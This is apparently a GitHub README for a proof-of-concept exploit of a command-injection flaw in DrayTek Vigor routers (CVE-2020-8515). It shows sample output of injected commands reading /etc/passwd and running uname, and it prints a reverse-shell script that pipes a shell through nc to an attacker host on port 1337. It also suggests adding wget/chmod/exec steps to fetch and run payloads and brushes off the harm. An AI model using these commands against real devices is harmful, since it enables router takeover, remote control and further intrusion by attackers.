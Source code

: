 # CVE-2020-8515
Draytek CVE-2020-8515 PoC I had kicking about. 

Amusingly, the command injected gets executed twice, see here:

```
$ ./draytek.py draytek.local
(>) executing command: cat /etc/passwd
(+) vulnerable!
(>) executing command: uname -a
Linux Vigor3900 2.6.33.5 #1 Wed Mar 28 00:49:28 CST 2018 armv6l unknown
Linux Vigor3900 2.6.33.5 #1 Wed Mar 28 00:49:28 CST 2018 armv6l unknown
```

I had some plans to polish this one off nicely, but honestly, its like what, a year later and I can't remember what those plans were, so here you go. It isn't hard to add some wget/chmod/exec stuff to this, just look in the "do_stuff" function.

If you wget down and run a script like the following, you do get a reverse shell:
```
#!/bin/sh
HOST="hacke.rs"
PORT=1337
rm -f /tmp/a; mkfifo /tmp/a; nc $HOST $PORT 0</tmp/a | /bin/sh >/tmp/a 2>&1; rm /tmp/a
```

I think you can probably also echoload such a script if you can get around bad chars in the injection, maybe I'll add that later - the double-execution problem really makes that a bit of a chore though. For now, this is kind of half-baked, "user decides". 

This exploit won't cause much harm ITW, all the boxes vulnerable to this have probably been coopted by script kiddies DDoS botnets already.

For scanning: use [the nuclei template someone made](https://github.com/projectdiscovery/nuclei-templates/blob/d174cab04cf29c933585fbf325b44b04f4fa9cde/cves/2020/CVE-2020-8515.yaml)
